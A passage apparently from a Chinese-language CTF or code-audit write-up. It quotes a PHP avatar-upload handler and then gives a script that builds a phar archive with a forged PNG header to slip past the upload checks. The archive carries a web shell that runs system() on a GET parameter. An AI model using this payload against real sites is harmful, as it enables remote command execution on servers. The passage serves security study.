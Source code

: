 ```php
}

// ok
$filename = bin2hex(random_bytes(4)) . '.png';
move_uploaded_file($_FILES['file']['tmp_name'], UPLOAD_DIR . '/' . $filename);

$session->set('avatar', $filename);
flash('info', 'Your avatar has been successfully updated!');
redirect('/');
```

有对文件类型的检查和png_header的检查，最后会将文件随机文件名人后放到uploads下

伪造文件头上传png

```php
<?php
$png_header = hex2bin('89504e470d0a1a0a0000000d49484452000000400000004000');
$phar = new Phar('exp.phar');
$phar->startBuffering();
$phar->addFromString('exp.css', '<?php system($_GET["wumonster"]); ?>');
$phar->setStub($png_header. '<?php __HALT_COMPILER(); ?>');
$phar->stopBuffering();
```

![Untitled](%E4%BB%A3%E7%A0%81%E5%AE%A1%E8%AE%A1%206658870bb1d4438684d807c1b2ec69fb/Untitled%2018.png)
